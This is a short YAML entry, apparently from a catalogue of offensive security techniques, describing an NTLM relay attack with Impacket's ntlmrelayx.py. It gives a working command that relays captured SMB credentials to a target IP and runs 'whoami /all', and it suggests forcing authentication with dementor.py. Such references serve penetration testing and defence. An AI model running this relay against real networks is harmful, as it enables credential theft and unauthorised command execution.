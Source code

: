 ```yaml
---
description: |
  Impacket's ntlmrelayx.py performs NTLM Relay Attacks, creating an SMB and HTTP server and relaying credentials to various different protocols (SMB, HTTP, LDAP, etc.). 

  The below command creates an SMB relay server that targets the IP 10.10.10.1, meaning any credentials that the SMB server recieves, gets relayed to that IP to attempt to authenticate and execute 'whoami /all'. In order for the SMB server to recieve credentials to relay, dementor.py can be used to trigger a forced authentication from the IP it's targeting to an attacker controlled SMB server. 

  Command Reference:

  	Target IP: 10.10.10.1

functions:
  No_Creds:
    - code: |
        python3 ntlmrelayx.py -smb2support -t smb://10.10.10.1 -c 'whoami /all' -debug
---
```

